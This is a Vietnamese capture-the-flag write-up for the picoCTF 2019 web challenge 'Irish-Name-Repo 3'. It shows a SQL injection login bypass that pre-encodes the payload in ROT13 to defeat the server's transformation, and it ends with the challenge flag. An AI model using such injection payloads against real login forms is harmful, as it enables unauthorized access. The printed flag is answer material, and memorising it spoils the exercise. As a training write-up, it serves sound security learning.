 # Irish-Name-Repo 3
##### Tags: `picoCTF 2019` `Web Exploitation`
### DESCRIPTION
There is a secure website running at [link](https://jupiter.challenges.picoctf.org/problem/54253/).Try to see if you can login as admin!
##### Sử dụng BurpSuite để Intercep Request gửi vào Repeater để xem và thử nghiệm, thử login:
```
password=abc'OR'1==1&debug=1
```
##### Được Response như sau:
```html
<pre>
  password: abc'OR'1==1
  SQL query: SELECT * FROM admin where password = 'nop'BE'1==1'
</pre>
```
##### Như thấy, đoạn chuỗi mật khẩu ta chuyển vào khi được xử lý bởi SQL đã được mã hóa bởi `ROT13` (a -> n = 13 ký tự)
> ROT13 là một loại mã hóa đơn giản thay đổi ký tự của chữ cái 13 thứ tự về sau. Và đây là mã hóa đối xứng.
##### Vì ROT13 là mã hóa đối xứng, tức là ta có thể giải mã bằng cách tương tự: abc -> nop thì nop -> abc. Lấy đoạn được mã hóa ở Request đẩy lại vào Resposne:
```html
<pre>
  password: abc'BE'1==1
  SQL query: SELECT * FROM admin where password = 'nop'OR'1==1'
</pre>
<h1>
  Logged in!
</h1>
<p>
  Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
</p>
```

##### => Lấy flag thành công!
